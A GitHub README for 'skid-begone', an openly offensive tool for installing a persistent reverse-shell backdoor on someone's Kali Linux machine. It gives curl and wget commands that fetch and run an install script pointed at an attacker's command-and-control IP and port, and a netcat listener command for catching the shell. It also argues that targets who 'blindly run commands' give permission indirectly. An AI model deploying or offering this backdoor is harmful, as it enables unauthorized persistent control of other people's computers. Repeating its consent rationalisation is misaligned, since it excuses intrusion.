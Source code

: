 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

For your best enjoyment, please make sure that the skid in this case is running Kali on real hardware.

I hope to see your post on r/masterhacker using my script.

Also **DO NOT use this against people who are not script-kiddies** (or skids, both mean the same). If you use this on let's say your friend who is not an arrogant skid *you'll be the greatest asshole of all time to them*.

If you want to use this for remote administration, consider setting up SSH.

If using a reverse-shell is your only *working* alternative to SSH, then go ahead (as long as you have permission by the owner of the machine).

*Hey, aren't you already contradicting yourself by saying "you need to have permission"?*
Yes I am absolutely are. However, due to the nature of skids (blindly running commands), they would get themselves in such situations anyways, if not worse. You can see it like this: The skid gives you permission indirectly because they'll happily run any command as root anyways.
One day they will learn the hard way...

## Using the backdoor

### Prerequisites

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell
- skid must run Kali (other distros *might* work too)

### Actually running the script

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

By "command and control server" I mean you, the one reading this right now, listening on the port you specified during install of the backdoor, using netcat (here's the command: `nc -vlp <your port>`).

### Uninstalling

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | sudo bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | sudo bash
```